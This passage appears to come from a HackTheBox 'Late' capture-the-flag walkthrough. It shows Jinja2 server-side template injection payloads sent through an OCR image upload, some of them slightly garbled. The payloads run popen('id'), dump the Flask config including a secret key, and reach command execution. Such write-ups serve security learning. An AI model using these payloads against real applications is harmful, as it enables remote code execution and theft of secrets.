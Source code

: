 ```
 &lt;class &#39;pyexpat.xmlparser&#39;&gt;,
 &lt;class &#39;plistlib.Data&#39;&gt;,
 &lt;class &#39;plistlib._PlistParser&#39;&gt;,
 &lt;class &#39;plistlib._DumbXMLWriter&#39;&gt;,


{{ () | attr('__class__')| attr('__base__')| attr('__subclasses__')()| attr('__getitem__')| attr('popen')('id') | attr('read')()}}


<p>tt cycler.__init__. globals__.os.popen('id').read() }}
</p>


{{''.\x5f\x5fclass\x5f\x5f.mro()[1].__subclasses__()[396]}}


{{ () | attr('__class__')|attr('__base__')|attr('__subclasses__')[245] }}

```

I tried to get some extra information with working paylaods:

```
{{ config }}

<p>&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: b&#39;_5#y2L&#34;F4Q8z\n\xec]/&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;
</p>
```


And after so many tries with different letter styles, backgrounds, font size and using spaces so the OCR algorithm can differenciate correctly the characters I got command execution:

```python
{ { cycler.__init__.__globals__.os.popen(' id ').read() } }
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_0_id.png" width="90%"/>
</p>
